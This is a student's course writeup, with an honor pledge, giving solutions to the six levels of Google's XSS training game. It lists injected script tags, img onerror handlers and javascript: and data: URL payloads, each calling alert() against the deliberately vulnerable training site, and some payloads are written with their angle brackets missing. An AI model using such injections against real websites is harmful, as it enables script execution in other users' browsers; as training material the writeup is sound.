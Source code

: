 # Crypto II Writeup

Name: Benjamin Chen
Section: 0201

I pledge on my honor that I have not given or received any unauthorized
assistance on this assignment or examination.

Digital acknowledgement: Benjamin Chen

## Assignment Writeup

### Part 1 (40 Pts)

Website never worked?

### Part 2 (60 Pts)

1) Input:<script>alert()</script>

2) Input: img src = "foo" onerror=alert();

Image source would have <> around it

3) Full URL: https://xss-game.appspot.com/level3/frame#1+".jpg'/> img src ='foo' onerror=alert();

Image source would have <> around it

4) Full URL: https://xss-game.appspot.com/level4/frame?timer=')%3Balert()%3Bvar foo=('

5) Full URL: https://xss-game.appspot.com/level5/frame?next=javascript:alert()

Then enter anything in the email textbox and hit next

6) Full Url: https://xss-game.appspot.com/level6/frame#data:text/plain,alert()



